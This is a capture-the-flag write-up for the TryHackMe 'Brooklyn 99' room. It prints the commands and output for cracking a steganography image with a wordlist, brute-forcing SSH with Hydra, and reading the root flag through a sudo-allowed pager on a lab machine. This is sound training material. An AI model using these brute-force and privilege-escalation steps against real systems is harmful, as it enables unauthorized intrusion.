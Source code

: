 <a href="https://tryhackme.com/room/brooklynninenine"><img src="../images/THMlogo.png" alt="tryhackme" width="200"/></a>

# Brooklyn 99

## nmap
```
Port 21 ftp - anonymous allowed
Port 22 ssh
Port 80 http
```
## gobuster
Gobuster did not bring anything to the table, so lets look to the actual front facing website.

## webside
If we view source we can see a comment:
```
<!-- Have you ever heard of steganography? -->
```
So lets download that image and see what it gives us.
```
wget http://10.10.230.236/brooklyn99.jpg
--2020-07-26 11:28:24--  http://10.10.230.236/brooklyn99.jpg
Connecting to 10.10.230.236:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69685 (68K) [image/jpeg]
Saving to: ‘brooklyn99.jpg’

brooklyn99.jpg               100%[============================================>]  68.05K  --.-KB/s    in 0.09s   

2020-07-26 11:28:24 (762 KB/s) - ‘brooklyn99.jpg’ saved [69685/69685]
```
## steganography

First things first lets just check the .jpg with file and strings in case anything pops out. This shows nothing but when we use steghide, the file comes back as corrupted. Possibly as the data that was hidden is compressed first or requires an actual password. Lets try stegcracker and rockyou.txt to see if we find anything:
```
stegcracker brooklyn99.jpg 
StegCracker 2.0.8 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: <insertpasswordhere>
Tried 20651 passwords
Your file has been written to: brooklyn99.jpg.out
```
Lets now try steghide with the password that we have just cracked.

This produces a note.txt which then provides us with Capt Holt's password

Lets carry on and see what we can get. We can always use this information later.
## ftp

Lets see what we can get on the FTP server. As it is anonymous, I just use the browser to see what files are available. In this case we have a note from Amy to Jake:
```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
From this we can make an assumption that we have two usernames jake and amy, both characters from the series. Also we are assured that Jake's password is a weak one.
Lets try and see what Hydra GUI can do with this for ftp first, using jake as the username and rockyou.txt as the list and then for ssh:

Nothing on the ftp side but success on the ssh:
```
hydra -s 22 -l jake -P /usr/share/wordlists/rockyou.txt -t 16 10.10.230.236
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 11:53:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.230.236:22/
[22][ssh] host: 10.10.230.236   login: jake   password: <insertpasswordhere>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 11:54:19
<finished>
```
## ssh
Now we can logon as Jake.
```
ssh jake@10.10.230.236 
jake@10.10.230.236's pasword:
```
Let's look around. Nothing in Jake's home directory. We can however see two other user directories - Amy and Holt.

**Amy**
I can see that again her home directory is empty, but she does have an .ssh folder. We could look at this later.

**Holt**
This time we can see two files.
1. nano.save 
2. user.txt

It we read this we get the answer to Task 1 #1

Now we will check out Jake's sudo -l permissions.

```
sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```
This looks interesting. Jake can run /usr/bin/less as root with no password. Lets try and read the root.txt assuming it is where it should be.

```
- Creator : Fsociety2006 --

Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <insertflaghere>

Enjoy!!
```
The comments in the room suggest a few ways to get root, so I will be coming back to try other ways!!
Great room for beginners like myself as well as being a great TV programme!!

Regards

K

![](/images/Karti.png)
